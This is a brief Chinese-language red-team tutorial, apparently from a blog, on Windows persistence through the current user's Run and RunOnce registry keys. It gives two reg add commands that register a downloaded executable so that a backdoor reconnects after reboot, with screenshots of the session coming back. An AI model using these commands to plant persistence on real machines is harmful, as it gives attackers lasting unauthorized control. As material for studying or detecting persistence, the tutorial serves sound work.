 ### Windows 注册表权限维持

Windows 注册表中的 `Run` 和 `RunOnce` 键是 Windows 系统自动启动程序的重要位置

1. **`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`**：
   - **作用**：这个键下的所有程序都会在**当前用户**每次登录时自动执行
   - **特点**：每次登录都执行，非常适合需要**持续性**和**长期控制**的后门程序。攻击者可以利用它来确保即使系统重启，后门程序也能自动启动
2. **`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`**：
   - **作用**：这个键下的所有程序只会在**当前用户**登录时**执行一次**，然后系统会从注册表中删除该项
   - **特点**：一次性执行，非常适合需要在系统重启后执行一次性任务的场景，例如下载并执行一个更复杂的后门程序，或者清理痕迹

以下是在当前用户登录下生效，适用于未提权，只运行一次

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v
aa /t REG_SZ /d "C:\Users\Administrator\Downloads\b.exe"
```

目前只有一个连接

![](https://pic1.imgdb.cn/item/68d47f6cc5157e1a882d45e3.png)

执行命令

![](https://pic1.imgdb.cn/item/68d47f97c5157e1a882d45eb.png)

重新启动后上线

![](https://pic1.imgdb.cn/item/68d47feec5157e1a882d45f3.png)

另一个则是永久

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v
aa /t REG_SZ /d "C:\Users\Administrator\Downloads\b.exe"
```

